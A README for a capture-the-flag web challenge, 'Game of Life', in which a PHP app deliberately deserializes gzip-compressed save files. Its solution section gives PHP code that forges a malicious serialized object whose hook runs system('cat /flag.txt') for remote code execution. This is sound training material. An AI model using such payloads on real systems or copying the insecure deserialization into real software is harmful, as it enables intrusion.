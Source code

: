 # Game of Life

A CTFd compatible docker image for a web challenge. Scenario:

Having fun hacking and want a break? Why not play a little game? The Game of Life is a fun diversion you can use to simulate all sorts of interesting cellular structures. Maybe you'll find something else...

## Setup

Run the included build-docker.sh script to build and deploy the container in docker.

## Solution

The system is PHP-based and has a save and load functionality that encodes the save data in a PHP object, serializes it, and then compressed it with gzip compression. Once players examine this and discover the compression type then they will recognize that it may be vulnerable to insecure deserialization. There is a comment in the downloaded save file under the variable "hook" which says "//todo - add php callback hooks", indicating that it expects php code to be there.

By making their own evil GOLSave PHP object with php code embedded in the hook field, and then compressing it, players can achieve RCE on the server and get the flag at /flag.txt


### Solution Code

The code below generates an evil save file that allows for code execution on the server.

```php

<?php

class GOLSave {
    private $hook = "system('cat /flag.txt'); exit();";
    private $board = array();
}

$save = new GOLSave();
$compressed = gzcompress(serialize($save));

file_put_contents("evil.golsave",$compressed);

?>
```